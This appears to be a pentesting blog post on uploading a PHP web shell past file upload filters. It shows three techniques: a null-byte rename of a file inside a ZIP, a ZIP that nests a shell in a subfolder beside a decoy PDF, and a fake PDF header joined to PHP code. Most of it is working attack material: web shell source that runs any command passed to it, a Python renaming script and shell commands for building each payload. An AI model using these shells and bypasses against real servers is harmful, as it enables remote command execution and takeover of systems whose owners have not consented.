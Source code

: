 ```yaml
---
title: "Web Shell via Polyglot ZIP + PDF Upload Bypass"
description: "Bypassing file upload filters using ZIP/PDF polyglots or directory tricks."
date: 2025-06-10T10:00:00+05:30
categories:
  - hacking
tags:
  - foothold
  - webshell
  - linux
  - pentesting
  - bypass
---
```


# Technique 1: Null Byte Bypass (\x00)
Create a fake `.pdf` that contains a valid header, and append a .php shell:
```bash
❯ cat shell.php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
❯ zip shell.zip 'shell.php'
  adding: shell.php (deflated 32%)
```
Then convert the name with the python code to add null character

*renamer.py*{: .highlight}
```python
import zipfile

zip_path = 'shell.zip'
new_zip_path = 'shell2.zip'
old_filename = 'shell.php'
new_filename = 'shell.php\x00.pdf'

with zipfile.ZipFile(zip_path, 'r') as zip_read:
    with zipfile.ZipFile(new_zip_path, 'w') as zip_write:
        for item in zip_read.infolist():
            data = zip_read.read(item.filename)
            if item.filename == old_filename:
                item.filename = new_filename
            zip_write.writestr(item, data)

print(f'Renamed {old_filename} to {new_filename} inside {new_zip_path}')

```
```bash
❯ python3 renamer.py
```
Upload shell2.zip

# Nested Directory + Web Shell Trick
Structure:
```bash
payload.zip
├── good.pdf
└── folder/
    └── shell.php
```
This bypasses naive extension or path checks. When extracted:
- good.pdf is used for validation
- Attacker accesses: payload.zip/folder/shell.php on the server

Create it:
```bash
mkdir payload
cp good.pdf payload/
mkdir payload/folder
cp shell.php payload/folder/
zip -r payload.zip payload
```
Upload payload.zip and hope the backend extracts and serves all content.

# Polyglot Payload — Fake PDF + Web Shell
Create a fake `.pdf` that contains a valid header, and append a .php shell:
```bash
echo "%PDF-1.4" > legit.pdf
echo "<?php system(\$_GET['cmd']); ?>" > shell.php
cat legit.pdf shell.php > payload.php
```
Sometimes servers check only the file header or MIME — this can pass as PDF but execute as PHP if interpreted that way.